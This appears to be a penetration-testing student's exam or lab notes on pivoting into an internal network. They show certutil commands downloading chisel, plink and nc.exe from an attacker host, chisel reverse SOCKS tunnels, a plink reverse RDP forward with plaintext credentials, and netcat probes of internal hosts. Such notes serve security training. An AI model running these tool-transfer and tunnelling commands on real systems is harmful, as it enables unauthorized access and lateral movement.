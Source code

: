 
- going to try proxy chains 1 more time using different ports.

```shell
# linux side server
./chisel_1.8.1_linux_amd64 server -p 6000 --reverse

# windows client side
chisel_1.8.1_windows_amd64.exe client 192.168.49.118:6000 R:1070:socks


certutil.exe -urlcache -split -f "http://192.168.49.118:1337/chisel_1.8.1_windows_amd64.exe"
```

- going to try plink if proxy chains doesn't work
```shell
# transferring over plink.exe
certutil.exe -urlcache -split -f "http://192.168.49.118:1337/plink.exe"

certutil.exe -urlcache -split -f "http://192.168.49.118:1337/nc.exe"

.\plink.exe -ssh -l kali -pw kali -R 192.168.49.118:3389:172.16.118.100:3389 192.168.49.118
```


Identified that Alice.Walters is part of the rdp group

- try plink.exe new version
![[alice walters rdp users.png]]


- Port 3389 is open on 172.16.118.102
```shell

C:\Windows\Temp>nc.exe -nv 172.16.118.100 3389
nc.exe -nv 172.16.118.100 3389
(UNKNOWN) [172.16.118.100] 3389 (?): TIMEDOUT      

C:\Windows\Temp>nc.exe -nv 172.16.118.102 3389
nc.exe -nv 172.16.118.102 3389
(UNKNOWN) [172.16.118.102] 3389 (?) open

```

![[3389 open on .102.png]]



- going to setup proxychains again

```shell
# 2nd attempt at chisel
# server on linux machine
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/ADset]
└─# ./chisel_1.8.1_linux_amd64 server -p 8000 --reverse
2023/04/12 17:42:12 server: Reverse tunnelling enabled
2023/04/12 17:42:12 server: Fingerprint N2Crjighb1Ael1YKsq+Q/062CeRCl1TXNcbC8+ib7OI=
2023/04/12 17:42:12 server: Listening on http://0.0.0.0:8000

# on client 192.168.118.101
chisel_1.8.1_windows_amd64.exe client 192.168.49.118:8000 R:1080:socks
```
